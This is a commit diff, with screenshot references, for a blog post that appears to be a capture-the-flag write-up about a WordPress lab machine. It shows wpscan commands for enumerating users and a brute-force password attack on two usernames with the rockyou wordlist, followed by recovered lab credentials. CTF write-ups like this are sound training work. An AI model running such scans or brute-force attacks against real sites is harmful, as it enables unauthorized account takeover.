

Before and after one commit to AaronBray/AaronBray.github.io, a Jekyll site: the page built from _posts/2025-10-30-billyjoel.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2025-10-30-billyjoel.md

```diff
--- a/_posts/2025-10-30-billyjoel.md
+++ b/_posts/2025-10-30-billyjoel.md
@@ -26,36 +26,38 @@
 
 <br>
 {% highlight bash %}
-***SMB rabbit Hole***
+"***SMB rabbit Hole***
 Navingating into the SMB share,
 I found 2 images and 1 mp4 audio file
 I download all 3
 
 This turned out to be a rabbit hole
-Alice-white-rabbit literally says "rabbit hole"
-tswift is literally a taylor swift music video
-check-this opens a urlcode to a billy joel music vido
-***Looks like SMB was a dead end
+Alice-white-rabbit: says rabbit hole
+tswift: is a taylor swift music video
+check-this: shows a QR Code that opens a billy joel music vido
+
+*** Looks like SMB was a dead end ***"
 {% endhighlight bash %}
 <br>
 
-## This machine details that a wordpress blog is being used, lets check it out:
+## This machine details that a wordpress blog is being used
+## lets check it out with a wpscan:
 {% highlight bash %}
-wpscan --update
-wpscan -H
-wpscan -e vp,vt,u
+wpscan --update                   - update
+wpscan -H <target_IP>             -basic scan
+wpscan -H <target_IP> -e vp,vt,u  -full scan
 {% endhighlight bash %}
 
-## Full scan shows usernames
-bjoel
-kwheel
+## Performing a full scan shows usernames
+bjoel, kwheel
 
-## we can brute force passwords for these usernames
+## We can brute force passwords for these usernames
 wpscan --url http://<target_IP> --usernames bjoel,kwheel --passwords /usr/share/wordlists/rockyou.txt
 
 
 ## We get Karen Wheelers username and password
-Username: kwheel, Password: cutiepie1[redacted]
+Username: kwheel
+Password: cutiepie1[redacted]
 
 ## We now need to find the login page
 ## Looking at robots.txt:
```
